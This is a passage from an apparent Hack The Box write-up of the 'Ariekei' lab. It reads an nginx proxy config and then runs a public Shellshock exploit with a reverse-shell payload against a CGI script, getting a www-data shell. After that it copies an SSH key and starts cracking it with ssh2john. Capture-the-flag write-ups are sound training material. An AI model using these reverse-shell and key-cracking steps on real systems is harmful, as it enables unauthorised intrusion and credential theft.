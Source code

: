 We enumerate files and find a config file in `/common/contatiners/waf-live` it has the following contents:
```php
## Blog test vhost ##
    server {
        listen       443 ssl;
        server_name  beehive.ariekei.htb;

        location / {
                proxy_pass http://172.24.0.2/;
                proxy_next_upstream error timeout invalid_header http_500 http_502 http_503 http_504;
                proxy_redirect off;
                proxy_buffering off;
                proxy_force_ranges on;
                proxy_set_header        Host            $host;
                proxy_set_header        X-Real-IP       $remote_addr;
                proxy_set_header        X-Forwarded-For $proxy_add_x_forwarded_for;
                add_header X-Ariekei-WAF "beehive.ariekei.htb";

        }

        error_page 403 /403.html;
        location = /403.html {
            root   html;
        }

    }
```

From this we can see that the ip is 172.24.0.2.

We can also see that the beehive.ariekei.htb hostname is being forwared from blog-test contatiner.

We will now try to use shellshock again to exploit the system. We find the exploit on exploit-db(https://www.exploit-db.com/exploits/34900/).

Running the exploit gives a shell as www-data!
```bash
root@ezra:/tmp# python shellshock.py  payload=reverse rhost=172.24.0.2 lhost=172.24.0.253 lport=1234 pages=/cgi-bin/stats
[!] Started reverse shell handler
[-] Trying exploit on : /cgi-bin/stats
[!] Successfully exploited
[!] Incoming connection from 172.24.0.1
172.24.0.1> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Then navigate to the ssh directory and we find another ssh key.

We copy this to our box and try to ssh, it seems its encrypted somehow.

We use ssh2john to try and decrypt the password from it.
